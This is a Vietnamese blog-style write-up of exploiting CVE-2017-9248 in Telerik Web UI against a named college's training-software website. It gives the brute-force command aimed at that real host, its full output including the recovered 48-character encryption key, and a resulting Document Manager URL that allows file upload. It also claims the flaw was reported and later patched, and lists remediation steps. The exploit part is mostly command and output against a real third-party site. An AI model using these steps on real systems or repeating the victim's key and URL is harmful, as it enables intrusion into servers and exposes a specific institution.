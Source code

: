 ```yaml
---
title: CVE-2017-9248
date: 25/5/2021
layout: single
header:
  teaser: /assets/images/cve.PNG
--- 
```


## Khai thác lỗ hổng ứng dụng Web qua Telerik Web Ui trên Framework Asp.Net

[![Language](https://img.shields.io/badge/Lang-Python-blue.svg)](https://www.python.org)


# Giới Thiệu
Khai Thác Lỗ Hổng phần mềm đào tạo của Trường Cao Đẳng 

# Mô Tả 
Chào mọi người, mình xin chia sẻ bài viết phân tích về lỗ hổng trên Telerik Web UI 
Đây là lỗ hổng bảo mật cực kỳ nghiêm trọng, tồn tại do mã hóa yếu trong tệp tin Telerik.Web.UI.dll (Telerik UI for ASP.NET AJAX components). Khai thác lỗ hổng này hacker có thể giải mã ra key (Telerik.Web.UI.DialogParametersEncryptionKey and/or the MachineKey), từ đó có được đường link quản trị nội dung tệp tin và có thể tải tệp tin lên máy chủ nếu cấu hình cho phép (mặc định là cho phép). Lỗ hổng này tồn tại ở các phiên bản từ 2012.3.1308 đến 2017.1.118 (.NET 35, 40, 45).



## Bắt đầu exploit
Để brute telerik bạn có thể sử dụng mã nguồn mở này [công cụ](https://github.com/bao7uo/dp_crypto) này
## Chạy công cụ 
```powershell
python 4.py k -u http://namsaigon.phanmemdaotao.com/telerik.web.ui.dialoghandler.aspx


CVE-2017-9248 - Telerik.Web.UI.dll Cryptographic compromise

Attacking http://namsaigon.phanmemdaotao.com/telerik.web.ui.dialoghandler.aspx
to find key of length [48] with accuracy threshold [9]
using key charset [01234567890ABCDEF]

Key position 01: {6} found with 49 requests, total so far: 49
Key position 02: {8} found with 31 requests, total so far: 80
Key position 03: {3} found with 23 requests, total so far: 103
Key position 04: {F} found with 57 requests, total so far: 1608
Key position 41: {7} found with 50 requests, total so far: 1458
Key position 42: {1} found with 10 requests, total so far: 1468
Key position 43: {6} found with 49 requests, total so far: 1517
Key position 44: {6} found with 45 requests, total so far: 1562
Key position 45: {9} found with 31 requests, total so far: 1593
Key position 46: {F} found with 61 requests, total so far: 1654
Key position 47: {4} found with 36 requests, total so far: 1690
Key position 48: {8} found with 31 requests, total so far: 1721
Found 48 of 48 key characters: (ASCII hex) 363833463739343946363532363045443631323746324335313531324346343743443535383231323731363639463438
Total web requests: 1721
http://namsaigon.phanmemdaotao.com/telerik.web.ui.dialoghandler.aspx?DialogName=DocumentManager&renderMode=2&Skin=Default&Title=Document%20Manager&dpptn=&isRtl=false&dp=ZG8GLm5UTFUXbnsHVF0LElV2SkEfZRJGY1h3QSB0YUQOPU1gW1xnXngBZFpbAWIIbG5K29afAQcAxV8Z1hdWxF0TEYWPn9idmRrenhpfFdvPGUNYm5hDFJ/RE0UW019U10hcGJcQmAnZC9gZVhFfRISBA4MdHNGWnUIAWNpYEVdAVhPVH9lEm1uTFUfBWdCVAJxN2RcdEQlABZGfExJdRoRTE0ZFQgI
```

![](https://www10.0zz0.com/2022/06/10/14/557837570.png)
## Và chúng ta có thể up tất cả mọi thứ lên trên này :D

## Cái Kết 
Tôi đã báo cáo lỗi này đến công ty phát triển phần mềm của trường :))

![](https://www13.0zz0.com/2022/06/10/14/164886149.png)

Sau hơn 1 năm báo cáo cuối cùng lỗi này đã được khắc phục :))

![](https://www13.0zz0.com/2022/06/10/15/894737972.png)

## Cách khắc phục
Cài đặt bản vá lỗ hổng bảo mật tại [đây](https://www.telerik.com/)
Tiến hành upgrade bản vá theo hướng 
Tạo các khóa duy nhất cho Telerick.Web.UI.DialogParameterEncodingKey và MachineKey trong web.config hoặc dùng trình tạo khóa của IIS machine Key
Thực hiện Redirect url trả lại trang thông báo lỗi khi hacker truy cập Telerik



## Nhớ đừng làm gì xấu với công cụ này nhé :D


